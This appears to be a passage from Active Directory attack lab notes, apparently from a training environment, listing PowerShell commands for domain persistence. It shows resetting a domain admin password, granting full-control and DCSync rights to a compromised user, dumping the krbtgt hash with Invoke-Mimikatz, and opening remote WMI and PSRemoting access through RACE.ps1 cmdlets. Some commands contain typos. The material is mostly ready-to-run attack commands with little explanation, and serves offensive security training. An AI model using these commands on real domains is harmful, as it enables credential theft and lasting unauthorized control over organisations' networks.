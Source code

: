 ```powershell

# and reset password to a domain admin
Set-DomainUserPasword -Identity new_da (ConvertTo-SecureString "Passw0rd123!" -AsPlainTet -Force) -Verbose
``` 

### ACL on Domain OUs
```powershell
# Other interesting persistence can be obtained by giving a full access to a owned user
Add-DomainObjectAcl -TargetIdentity 'dc=dollarcorp,dc=moneycorp,dc=loc' -PrincipalIdentity student1 -Verbose -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local

# OR give Dcysnc rights
Add-DomainObjectAcl -TargetIdentity 'dc=dollarcorp,dc=moneycorp,dc=loc' -PrincipalIdentity student1 -Verbose -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local
```

### DCSync

- **With PowerView and Invoke-Mimikatz:**
```powershell

# Gets the hash of krbtgt (it is the most static user and can be used for impersonating other
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### ACL for WMI, PSRemoting and remote Registry
```powershell

# SDDL Primer
Ace_type;ace_Flags;rights;object_guid,inherit_object_guid;account_SID
A;CI;CCDCLCSWRPWPRCWD;;;SID
# - A Stand for Access Allowed (D= Denied, AU= System Audit,etc..=
# - CI means "Container Inherit" (OI=Object Inherit, NP: No propagate)
# rights
# - CC: Create child
# - DC: Delete Child 
# - LC: List Content
# - SW:  All vaoidated Writes
# - RP: Read All Properties
# - WP: Write All Properties
# - RC: Read Permission
# - WD: Write Permission

# With the tool RACE.ps1 it's possible to set WMI permission

# Check access as current user (should output information)
Get-WmiObject -Class win32_operatingsystem -ComputerName dcorp-dc

# Give access to Remote WMI (root\cimv2 namespace) for local macihne
Set-RemoteWmi -SamAccountName student1  -Verbose

# Add access to Remote WMI on computer dcorp-dc (second one is with explicit credentials)
Set-RemoteWmi -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2'  -Verbose
Set-RemoteWmi -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Credential Administrator -Verbose
# The -Remove option remove permission to WMI


# Set access via PSRemoting 
Set-RemotePSRemoting -SAMAccountName student1 -ComputerName dcorp-dc -Verbose

```